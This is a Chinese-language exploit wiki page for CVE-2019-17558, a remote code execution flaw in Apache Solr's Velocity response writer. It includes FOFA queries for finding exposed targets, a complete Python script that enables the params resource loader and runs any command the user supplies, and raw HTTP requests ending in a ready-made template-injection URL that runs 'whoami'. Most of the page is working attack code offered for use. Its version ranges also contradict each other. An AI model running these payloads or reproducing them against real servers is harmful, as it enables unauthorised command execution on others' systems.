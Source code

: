 

## CVE-2019-17558 | Apache Solr  8.1.1 >= 8.2.0 存在RCE漏洞





## 0x00 漏洞说明



在 Apache Solr 5.0.0 到 8.3.1版本，存在通过 VelocityResponseWriter ([Velocity响应编写器](https://www.w3cschool.cn/solr_doc/solr_doc-umxd2h9z.html)) 进行远程代码执行的漏洞。



## 0x01 影响版本



- `>= Apache Solr 8.1.1`
- `<= Apache Solr 8.2.0`



## 0x02 漏洞成因



1. 攻击者可以通过设置`params.resource.loader.enabled`为 `true` 来启用params资源加载器，随后攻击者可以为[Velocity响应编写器](https://www.w3cschool.cn/solr_doc/solr_doc-umxd2h9z.html)提供配置集。

1. 当params资源加载器 收到可渲染的、包含恶意代码的配置集时，将造成RCE漏洞。

   



## 0x03 漏洞指纹



fofa:

```
app="apache-solr"
title="Solr Admin"
```





## 0x04 POC & EXP



!FILENAME EXP.py

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
#Author:gshell

import sys
import os
import requests
import json

auth = """
   ___               _____        __         __   __
  / _ )  __ __      / ___/  ___  / /  ___   / /  / /
 / _  | / // /     / (_ /  (_-< / _ \/ -_) / /  / / 
/____/  \_, /      \___/  /___//_//_/\__/ /_/  /_/  
       /___/
====================================================

"""

def get_core_name(url):
    if url[-1] == '/':
        url = url[:-1].split('\n')[0]
    else:
        url = url.split('\n')[0]
    print ('[+] target_url： {}'.format(url))
    cores_url = url + '/solr/admin/cores?indexInfo=false&wt=json'
    print ('[+] Cores_Name： {}\n'.format(cores_url))
    print ('====================================================')

    r = requests.get(cores_url)
    if r.status_code == 200 and 'responseHeader' in r.text and 'status' in r.text:
        json_str = json.loads(r.text)

        for key in json_str['status']:
            core_name_url = url + '/solr/' + key + '/config'
            exploit(core_name_url)
        
    else:
        print("no core_name, try to create please")

def exploit(url):
    solr_headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0", 
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", 
    "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2", 
    "Accept-Encoding": "gzip, deflate", 
    "Connection": "close", 
    "Upgrade-Insecure-Requests": "1", 
    "Cache-Control": "max-age=0", 
    "Content-Type": "application/json"
    }

    solr_json = {"update-queryresponsewriter": {"class": "solr.VelocityResponseWriter", 
    "name": "velocity", 
    "params.resource.loader.enabled": "true", 
    "solr.resource.loader.enabled": "true", 
    "startup": "lazy", 
    "template.base.dir": ""}}
    # proxies = {"http":"http://127.0.0.1:8080"}
    r = requests.post(url, headers=solr_headers, json=solr_json)
    if r.status_code == 200 and 'responseHeader' in r.text:
        print("[+] target maybe vulnerable!")
        solr_url = url[:-7]
        # print(solr_url)
        cmd = sys.argv[2]
        solr_exp(solr_url,cmd)
    else:
        print ("[+] target is not vulnerable\n")

def solr_exp(url,cmd):
    url = url + r"/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27" + cmd + r"%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end"
    r = requests.get(url)
    if r.status_code == 400 or r.status_code == 500  or r.status_code ==200 and len(r.content) >0:
        print ("[+] solr_rce exploit Successful!")
        print ('\nvulnerable url： {}'.format(url))
        print ('\nsolr__response： {}'.format(r.text))
        print ('====================================================\n')
    else:
        print ("!!! [+] solr exploit failed! !!!")

if __name__ == '__main__':
    print(auth)
    if len(sys.argv) != 3:
        sys.exit("\n [!] Usage:  python3 %s url cmd\n" % sys.argv[0])
    else:
        url = sys.argv[1]
        get_core_name(url)
```



图形化利用工具:

```
https://github.com/SDNDTeam/CVE-2019-17558_Solr_Vul_Tool/
```





## 0x05 详细利用过程



首先，通过API获取内核名称

```json
POST:http://ip:8983/solr/admin/cores?indexInfo=false&wt=json
```



影响内容:

```json
{
    
    
  "responseHeader":{
    
    
    "status":0,
    "QTime":0},
  "initFailures":{
    
    },
  "status":{
    
    
    "demo":{
    
    
      "name":"demo", //这里就是内核名
      "instanceDir":"/var/solr/data/demo",
      "dataDir":"/var/solr/data/demo/data/",
      "config":"solrconfig.xml",
      "schema":"managed-schema",
      "startTime":"2020-07-06T12:16:23.482Z",
      "uptime":3756216
    }
  }
}
```





发送POST请求，开启 `params.resource.loader.enabled `配置



```json
POST /solr/demo/config HTTP/1.1 //将内核名添加到路径 sorl/后
Host: xxx:8983
Content-Type: application/json
Content-Length: 259

{
    
    
  "update-queryresponsewriter": {
    
    
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
```



通过 `Velocity`模板执行`whoami`命令

```
http://xxx:8983/solr/demo/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27whoami%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end
```





## 0x06 扩展链接



[CVE-2019-17558 NVD](https://nvd.nist.gov/vuln/detail/CVE-2019-17558)



[Velocity响应编写器](https://www.w3cschool.cn/solr_doc/solr_doc-umxd2h9z.html)



## 0x07 联系方式



作者 : BitWiki支持团队
